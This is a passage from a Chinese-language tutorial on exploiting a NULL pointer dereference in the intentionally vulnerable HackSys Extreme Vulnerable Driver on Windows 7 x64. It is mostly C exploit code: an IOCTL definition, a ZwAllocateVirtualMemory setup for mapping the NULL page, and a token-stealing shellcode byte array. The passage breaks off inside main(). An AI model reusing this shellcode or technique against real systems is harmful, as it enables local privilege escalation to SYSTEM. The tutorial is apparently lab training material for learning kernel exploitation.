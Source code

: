 接下来，将我们的Shellcode复制0x100，准备好被调用：

```
memcpy((void*)0x100, shellcode, sizeof(shellcode));
```

结合之后，我们最终的漏洞利用代码如下：

```
#include "stdafx.h"

#define HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80A, METHOD_NEITHER, FILE_ANY_ACCESS)

typedef NTSTATUS(*WINAPI ZwAllocateVirtualMemory)(
    _In_    HANDLE    ProcessHandle,
    _Inout_ PVOID     *BaseAddress,
    _In_    ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T   RegionSize,
    _In_    ULONG     AllocationType,
    _In_    ULONG     Protect
    );

char shellcode[256] = `{`
    0x50, 0x53, 0x51, 0x56, 0x57, 0x65, 0x48, 0x8b, 0x04, 0x25,
    0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80, 0x10, 0x02, 0x00,
    0x00, 0x81, 0xb8, 0x80, 0x01, 0x00, 0x00, 0x41, 0x41, 0x41,
    0x41, 0x74, 0x0f, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00, 0x00,
    0x48, 0x2d, 0x88, 0x01, 0x00, 0x00, 0xeb, 0xe5, 0x48, 0x89,
    0xc3, 0x83, 0xb8, 0x80, 0x01, 0x00, 0x00, 0x04, 0x74, 0x0f,
    0x48, 0x8b, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48, 0x2d, 0x88,
    0x01, 0x00, 0x00, 0xeb, 0xe8, 0x48, 0x8b, 0x88, 0x08, 0x02,
    0x00, 0x00, 0x48, 0x89, 0x8b, 0x08, 0x02, 0x00, 0x00, 0x5f,
    0x5e, 0x59, 0x5b, 0x58, 0xc3, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
`}`;

int main()
`{`
    printf("HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE Windows 7 x64 exploitnt@_xpn_nn");
    ZwAllocateVirtualMemory _ZwAllocateVirtualMemory = (ZwAllocateVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), "ZwAllocateVirtualMemory");

    PVOID memAddr = (PVOID)1;
    SIZE_T regionSize = 4096;
    char exploit[1024];

    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

```